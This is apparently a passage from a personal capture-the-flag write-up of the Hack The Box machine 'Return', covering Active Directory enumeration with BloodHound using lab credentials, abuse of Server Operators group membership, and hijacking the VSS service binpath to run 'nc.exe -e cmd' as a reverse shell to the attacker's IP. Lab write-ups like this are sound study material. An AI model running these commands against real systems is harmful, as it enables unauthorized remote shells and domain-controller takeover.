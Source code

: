 ---OUTPUT---
    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/21/2025   1:34 PM             34 root.txt
-a----        4/21/2025   2:23 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----        4/21/2025   2:23 PM          16384 SeBackupPrivilegeUtils.dll
-a----        4/21/2025   2:22 PM            144 vss.dsh
```
### Alternate Method (Intended Route)
### Via BurpSuite
- Used BurpSuite but couldn't find anything relevant. Tried LFI and SQLi in settings.php but got nothing of value
### Via BloodHound
- I grabbed the files :
	```bash
bloodhound-python --dns-tcp -ns 10.10.11.108 -d return.local -u 'svc-printer' -p '1edFg43012!!' -c all
```
- There was no clear path but on checking svc-printer's Group Memberships we see it is a part of Server Operators group
	- ![[Pasted image 20250421192150.png]]
		- Alternatively, if we check `net users` on target we will see this group.
- We can see from this link: https://www.thehacker.recipes/ad/movement/builtins/security-groups
	- Server Operator group members can sign-in to a server, start and stop services, access domain controllers, perform maintenance tasks (such as backup and restore), and they have the ability to change binaries that are installed on the domain controllers.
- We try to see what services we can modify but we don't have permissions
	```bash
sc.exe query

---OUTPUT---

```
- We upload netcat to target
	```bash
upload nc.exe
```
- We then pass this command that changes the config for the vss service to call netcat and execute the command line to the target IP and port (a blind one..not sure how to figure out why vss as I didn't find any resource except 0xdf's which links to a post that doesn't exist anymore)
	```bash
sc.exe config VSS binpath="C:\temp\nc.exe -e cmd 10.10.14.25 9999"
sc.exe stop vss
sc.exe start vss

---OUTPUT-1--
[SC] ChangeServiceConfig SUCCESS

---OUTPUT-3---
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
